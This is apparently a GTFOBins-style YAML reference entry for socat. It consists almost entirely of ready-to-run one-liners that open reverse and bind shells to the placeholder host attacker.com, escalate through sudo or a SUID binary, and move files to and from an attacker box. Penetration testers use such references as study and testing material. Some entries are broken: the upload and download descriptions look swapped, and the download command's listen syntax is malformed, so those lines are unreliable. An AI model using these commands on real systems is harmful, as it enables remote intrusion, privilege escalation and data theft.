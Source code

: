 ```yaml
---
functions:
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  bind-shell:
    - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
  sudo:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  limited-suid:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  upload:
    - description: Run ``socat -u file:path tcp:ip:12345`` on the attacker box to send a file to your box.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT file:path
  download:
    - description: Run ``socat -u TCP-LISTEN:12345,reuseaddr OPEN:path,creat`` on your box to receive a file from attacker box.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-listen:$RHOST:$RPORT,reuseaddr OPEN:path,creat
---
```

